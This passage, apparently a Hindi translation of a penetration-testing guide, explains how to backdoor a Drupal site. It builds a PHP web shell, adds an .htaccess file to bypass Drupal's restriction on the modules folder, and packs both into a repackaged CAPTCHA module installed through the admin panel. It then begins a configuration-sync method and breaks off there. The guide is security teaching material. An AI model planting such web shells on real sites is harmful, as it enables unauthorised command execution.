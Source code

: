 ## बैकडोर मॉड्यूल

{% hint style="warning" %}
वर्तमान संस्करणों में, डिफ़ॉल्ट स्थापना के बाद केवल वेब तक पहुँच होने पर प्लगइन्स स्थापित करना अब संभव नहीं है।
{% endhint %}

एक बैकडोर मॉड्यूल **एक मौजूदा मॉड्यूल में शेल जोड़कर** बनाया जा सकता है। मॉड्यूल drupal.org वेबसाइट पर पाए जा सकते हैं। चलिए [CAPTCHA](https://www.drupal.org/project/captcha) जैसे एक मॉड्यूल का चयन करते हैं। नीचे स्क्रॉल करें और tar.gz [आर्काइव](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz) का लिंक कॉपी करें।

* आर्काइव डाउनलोड करें और इसकी सामग्री निकालें।
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* एक **PHP वेब शेल** बनाएं जिसमें सामग्री हो:
```php
<?php
system($_GET["cmd"]);
?>
```
* अगला, हमें **`.htaccess`** फ़ाइल बनानी होगी ताकि हम फ़ोल्डर तक पहुँच प्राप्त कर सकें। यह आवश्यक है क्योंकि Drupal **`/modules`** फ़ोल्डर तक सीधे पहुँच को अस्वीकार करता है।
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* उपरोक्त कॉन्फ़िगरेशन / फ़ोल्डर के लिए नियम लागू करेगा जब हम /modules में एक फ़ाइल का अनुरोध करते हैं। इन दोनों फ़ाइलों को कैप्चा फ़ोल्डर में कॉपी करें और एक संग्रह बनाएँ।
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* मान लीजिए कि हमारे पास **प्रशासनिक पहुंच** है वेबसाइट पर, **`Manage`** पर क्लिक करें और फिर साइडबार में **`Extend`** पर क्लिक करें। अगला, **`+ Install new module`** बटन पर क्लिक करें, और हमें इंस्टॉलेशन पृष्ठ पर ले जाया जाएगा, जैसे `http://drupal-site.local/admin/modules/install` बैकडोर किए गए कैप्चा आर्काइव पर जाएं और **`Install`** पर क्लिक करें।
* एक बार इंस्टॉलेशन सफल होने के बाद, **`/modules/captcha/shell.php`** पर जाएं ताकि कमांड निष्पादित कर सकें।

## Drupal को कॉन्फ़िगरेशन समन्वय के साथ बैकडोर करना <a href="#backdooring-drupal" id="backdooring-drupal"></a>

**पोस्ट साझा की गई** [**Coiffeur0x90**](https://twitter.com/Coiffeur0x90)

### भाग 1 (_Media_ और _Media Library_ का सक्रियण)

_Extend_ मेनू (/admin/modules) में, आप उन प्लगइन्स को सक्रिय कर सकते हैं जो पहले से स्थापित प्रतीत होते हैं। डिफ़ॉल्ट रूप से, प्लगइन्स _Media_ और _Media Library_ सक्रिय नहीं होते हैं, इसलिए चलिए इन्हें सक्रिय करते हैं।
